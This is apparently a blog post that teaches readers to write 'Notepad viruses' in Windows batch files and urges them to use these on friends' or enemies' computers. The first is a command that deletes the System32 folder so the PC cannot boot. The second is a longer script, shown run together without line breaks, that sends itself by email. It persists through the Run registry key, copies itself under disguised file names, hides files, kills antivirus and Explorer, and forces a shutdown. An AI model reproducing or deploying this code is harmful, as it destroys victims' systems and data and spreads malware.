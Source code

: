 ```yaml
---
layout: post
title:  "Destroy Your Friends Computer Using Simple Notepad Virus"
categories: windowstricks
permalink: /tricks/windows/destroy-friends-computer/
description: Learn How to make simple batch file virus into Notepad to destroy your friends computer for fun.
tags: 
- windowstricks
- virus
metatags: noindex, follow
---
```


In this post we'll take a look on how to create a deadly computer virus to destroy your enemy or victim's PC...

Open Notepad, Type or Paste in the following command:-

    del c:\windows\system32\*.* /q

Save it with the extension “.bat or .cmd” as u want…

Don’t double click the file otherwise u r in trouble. Why??? Bcz the file u created deletes all files from your system32 folder and when u restart your PC it will not start bcz system can not find the files in the system32 folder which is required at the time of booting…

You can also test the above by creating a fake folder let suppose:-

windows1 in C:\.

Copy some old files in it and just follow the above command. By double clicking the bat or cmd file ur all files automaitcally get deleted.

You can try this file one any one’s computer. (but this result in causing damage to the computer, so think again before trying this on anyone’s PC)

Virus 2:

This post is to help you to send viruses to your enemies! Here goes,

Paste the below given code in your Notepad, then save it as anyname.bat

Do not click on that batch file… Send it to your enimies’ email… It will:

1) Copy itself into startup

2) Copy itself over one thousand times into random spots in your computer

3) Hide its self and all other created files

4) Task kill MSN, Norton, Windows Explorer, Limewire.

5) Swap the left mouse button with the right one

6) Opens alert boxes

7) Changes the time to 12:00 and shuts down the computer

CODE:-

      

            @Echo offcolor 4title 4title R.I.Pstartstartstartstart calccopy %0 %Systemroot%\Greatgame > nulreg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Greatgame /t REG_SZ/d %systemroot%\Greatgame.bat /f > nulcopy %0 *.bat > nulAttrib +r +h Greatgame.batAttrib +r +hRUNDLL32 USER32.DLL.SwapMouseButtonstart calcclstskill msnmsgrtskill LimeWiretskill iexploretskill NMainstartclscd %userprofile%\desktopcopy Greatgame.bat R.I.P.batcopy Greatgame.bat R.I.P.jpgcopy Greatgame.bat R.I.P.txtcopy Greatgame.bat R.I.P.execopy Greatgame.bat R.I.P.movcopy Greatgame.bat FixVirus.batcd %userprofile%My Documentscopy Greatgame.bat R.I.P.batcopy Greatgame.bat R.I.P.jpgcopy Greatgame.bat R.I.P.txtcopy Greatgame.bat R.I.P.execopy Greatgame.bat R.I.P.movcopy Greatgame.bat FixVirus.batstartstart calcclsmsg * R.I.Pmsg * R.I.Pshutdown -r -t 10 -c "VIRUS DETECTED"startstarttime 12:00:R.I.Pcd %usernameprofile%\desktopcopy Greatgame.bat %random%.batgoto RIP
